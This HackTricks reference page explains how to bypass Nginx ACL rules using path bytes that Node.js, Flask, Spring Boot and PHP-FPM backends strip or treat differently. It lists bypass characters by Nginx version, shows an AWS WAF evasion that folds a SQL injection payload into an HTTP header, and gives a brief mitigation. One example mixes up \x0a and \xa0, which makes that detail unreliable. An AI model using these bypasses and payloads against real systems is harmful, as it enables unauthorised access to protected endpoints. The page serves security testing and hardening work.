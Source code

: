 # Proxy / WAF Protections Bypass

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Bypassing Nginx ACL Rules <a href="#heading-bypassing-nginx-acl-rules-with-nodejs" id="heading-bypassing-nginx-acl-rules-with-nodejs"></a>

Nginx restriction example:

```plaintext
location = /admin {
    deny all;
}

location = /admin/ {
    deny all;
}
```

### NodeJS

<figure><img src="../.gitbook/assets/image (713).png" alt=""><figcaption></figcaption></figure>

* As Nginx includes the character `\xa0` as part of the pathname, the ACL rule for the `/admin` URI will not be triggered. Consequently, Nginx will forward the HTTP message to the backend;
* When the URI `/admin\x0a` is received by the Node.js server, the character `\xa0` will be removed, allowing successful retrieval of the `/admin` endpoint.

| Nginx Version | **Node.js Bypass Characters** |
| ------------- | ----------------------------- |
| 1.22.0        | `\xA0`                        |
| 1.21.6        | `\xA0`                        |
| 1.20.2        | `\xA0`, `\x09`, `\x0C`        |
| 1.18.0        | `\xA0`, `\x09`, `\x0C`        |
| 1.16.1        | `\xA0`, `\x09`, `\x0C`        |

### Flask

Flask removes the characters `\x85`, `\xA0`, `\x1F`, `\x1E`, `\x1D`, `\x1C`, `\x0C`, `\x0B`, and `\x09` from the URL path, but NGINX doesn't.

<figure><img src="../.gitbook/assets/image (714).png" alt=""><figcaption></figcaption></figure>

| Nginx Version | **Flask Bypass Characters**                                    |
| ------------- | -------------------------------------------------------------- |
| 1.22.0        | `\x85`, `\xA0`                                                 |
| 1.21.6        | `\x85`, `\xA0`                                                 |
| 1.20.2        | `\x85`, `\xA0`, `\x1F`, `\x1E`, `\x1D`, `\x1C`, `\x0C`, `\x0B` |
| 1.18.0        | `\x85`, `\xA0`, `\x1F`, `\x1E`, `\x1D`, `\x1C`, `\x0C`, `\x0B` |
| 1.16.1        | `\x85`, `\xA0`, `\x1F`, `\x1E`, `\x1D`, `\x1C`, `\x0C`, `\x0B` |

### Spring Boot <a href="#heading-bypassing-nginx-acl-rules-with-spring-boot" id="heading-bypassing-nginx-acl-rules-with-spring-boot"></a>

Below, you will find a demonstration of how ACL protection can be circumvented by adding the character `\x09` or  at the end of the pathname:

<figure><img src="../.gitbook/assets/image (715).png" alt=""><figcaption></figcaption></figure>

| Nginx Version | **Spring Boot Bypass Characters** |
| ------------- | --------------------------------- |
| 1.22.0        | `;`                               |
| 1.21.6        | `;`                               |
| 1.20.2        | `\x09`, `;`                       |
| 1.18.0        | `\x09`, `;`                       |
| 1.16.1        | `\x09`, `;`                       |

### PHP-FPM <a href="#heading-bypassing-nginx-acl-rules-with-php-fpm-integration" id="heading-bypassing-nginx-acl-rules-with-php-fpm-integration"></a>

Let's consider the following Nginx FPM configuration:

```plaintext
location = /admin.php {
    deny all;
}

location ~ \.php$ {
    include snippets/fastcgi-php.conf;
    fastcgi_pass unix:/run/php/php8.1-fpm.sock;
}
```

It's possible to bypass it accessing `/admin.php/index.php`:

<figure><img src="../.gitbook/assets/image (716).png" alt=""><figcaption></figcaption></figure>

### How to prevent <a href="#heading-how-to-prevent" id="heading-how-to-prevent"></a>

To prevent these issues, you must use the `~` expression Instead of the `=` expression on Nginx ACL rules, for example:

COPYCOPY

```plaintext
location ~* ^/admin {
    deny all;
}
```

## Bypassing AWS WAF ACL With Line Folding <a href="#heading-bypassing-aws-waf-acl-with-line-folding" id="heading-bypassing-aws-waf-acl-with-line-folding"></a>

It's possible to bypass AWS WAF protection in a HTTP header by using the following syntax where the AWS WAF won't understand X-Query header contains a sql injection payload while the node server behind will:

```http
GET / HTTP/1.1\r\n
Host: target.com\r\n
X-Query: Value\r\n
\t' or '1'='1' -- \r\n
Connection: close\r\n
\r\n
```

## References

* [https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
